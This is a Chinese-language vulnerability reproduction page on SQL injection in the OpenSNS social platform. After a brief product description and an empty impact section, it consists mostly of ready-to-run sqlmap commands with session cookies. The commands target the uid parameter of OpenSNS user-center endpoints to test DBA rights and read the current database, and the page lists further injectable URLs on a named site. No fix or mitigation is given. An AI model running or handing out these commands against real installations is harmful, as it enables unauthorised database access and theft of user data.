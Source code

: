 ```yaml
---
title: "OpenSNS sql注入"
id: zhfly3058
---
```


# OpenSNS sql注入

## 一、漏洞简介

OpenSNS是基于OneThink的轻量级社交化用户中心框架，系统秉持简约的设计风格，注重交流，为用户提供了一套轻量级的社交方案。OpenSNS前身是“ThinkOX”，2015年1月28号正式更名为OpenSNS。
OpenSNS采用PHP+MYSQL构建的一款有“身份”的开源免费SNS社交系统，适用于多种社会关系。
OpenSNS采用thinkphp框架编写。系统的设计遵循高内聚低耦合，允许管理员自由开启关闭功能模块。不仅如此，OpenSNS还内置了一个功能扩展商店，可以一键在线安装新的功能扩展。
OpenSNS目前有大量的国内开发者，云市场也上架了大量的第三方功能模块和主题应用，使OpenSNS可以同时满足各行各业的社交需求。

## 二、漏洞影响

## 三、复现过程

### SQL注入(一)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --current-db 
```

#### 同类h注入点

http://0-sec.org/index.php?s=/ucenter/index/index&uid=10
http://0-sec.org/index.php?s=/ucenter/index/information&uid=10

### SQL注入(二)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --current-db 
```